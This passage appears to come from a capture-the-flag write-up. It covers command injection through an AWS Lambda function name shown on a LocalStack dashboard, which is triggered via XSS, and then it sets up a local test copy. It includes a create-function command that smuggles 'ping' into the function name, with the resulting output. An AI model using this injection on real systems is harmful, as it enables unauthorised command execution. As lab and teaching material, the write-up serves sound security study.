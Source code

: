 Given that the dashboard exists, this seems like a valuable path to
explore. The exploit is simply putting an injection into the function
name, and then visiting the dashboard. I tried some shots in the dark to
get this to work, such as:



    oxdf@hacky$ aws lambda create-function --function-name 'ex; ping -c 1 10.10.14.6' --zip-file fileb://index.zip --role arn:aws:iam::123456789012:role/lambda-role --endpoint-url http://s3-testing.stacked.htb --handler index.handler --runtime nodejs12.x
    {
        "FunctionName": "ex; ping -c 1 10.10.14.6",
        "FunctionArn": "arn:aws:lambda:us-east-1:000000000000:function:ex; ping -c 1 10.10.14.6",
        "Runtime": "nodejs12.x",
        "Role": "arn:aws:iam::123456789012:role/lambda-role",
        "Handler": "index.handler",
        "CodeSize": 291,
        "Description": "",
        "Timeout": 3,
        "LastModified": "2021-08-25T18:38:39.821+0000",
        "CodeSha256": "RflcSNGUgqyNEvEtX4iMOtjiR8yEmBLyRFZIk3h+BDE=",
        "Version": "$LATEST",
        "VpcConfig": {},
        "TracingConfig": {
            "Mode": "PassThrough"
        },
        "RevisionId": "eefc33ce-bc21-4f97-963f-9a2aa2c3987d",
        "State": "Active",
        "LastUpdateStatus": "Successful",
        "PackageType": "Zip"
    }



I'll trigger the XSS to get the dashboard again and listen with
`tcpdump`, but no ICMP arrived.

#### Local

Because this is a lot to troubleshoot over a waiting for XSS, I'll set
up a local copy. I had to move Burp to a different port, as LocalStack
wants 8080. I have the `docker-compose.yml` file. In the directory with
that file, I'll run `docker-compose up`, and it starts.

On `http://127.0.0.1:8080` there's a dashboard:

![](/img/image-20210825144301535.png)

To interact with my local copy of LocalStack, I'll use `awslocal` (from
[here](https://github.com/localstack/awscli-local),
`pip3 install awscli-local`) to avoid having to put the `--endpoint-url`
string in to interact with the local copy, as well as making clear which
instance I'm working with.

I'll create a Lambda function:
